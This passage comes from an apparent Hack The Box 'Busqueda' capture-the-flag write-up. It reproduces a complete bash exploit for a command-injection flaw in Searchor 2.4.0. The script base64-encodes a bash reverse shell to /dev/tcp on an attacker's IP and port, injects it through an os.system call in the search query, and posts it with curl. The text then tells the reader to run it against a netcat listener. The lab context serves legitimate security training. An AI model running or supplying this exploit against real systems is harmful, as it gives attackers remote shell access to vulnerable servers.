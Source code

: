 ![](/assets/img/posts/htb-busqueda/vuln-git-commit-fix.png)

Below is a valid [exploit](https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection/blob/main/exploit.sh) for this vulnerability: 

```bash
#!/bin/bash -

default_port="9001"
port="${3:-$default_port}"
rev_shell_b64=$(echo -ne "bash  -c 'bash -i >& /dev/tcp/$2/${port} 0>&1'" | base64)
evil_cmd="',__import__('os').system('echo ${rev_shell_b64}|base64 -d|bash -i')) # junky comment"
plus="+"

echo "---[Reverse Shell Exploit for Searchor <= 2.4.2 (2.4.0)]---"

if [ -z "${evil_cmd##*$plus*}" ]
then
    evil_cmd=$(echo ${evil_cmd} | sed -r 's/[+]+/%2B/g')
fi

if [ $# -ne 0 ]
then
    echo "[*] Input target is $1"
    echo "[*] Input attacker is $2:${port}"
    echo "[*] Run the Reverse Shell... Press Ctrl+C after successful connection"
    curl -s -X POST $1/search -d "engine=Google&query=${evil_cmd}" 1> /dev/null
else 
    echo "[!] Please specify a IP address of target and IP address/Port of attacker for Reverse Shell, for example: 

./exploit.sh <TARGET> <ATTACKER> <PORT> [9001 by default]"
fi
```

No changes need to be made to the exploit code. Download the code, append the execute permissions bit `chmod +x exploit.sh`, start a netcat listener, and run the exploit code to catch the reverse shell ...


[^htb-link]: <https://www.hackthebox.com/machines/busqueda>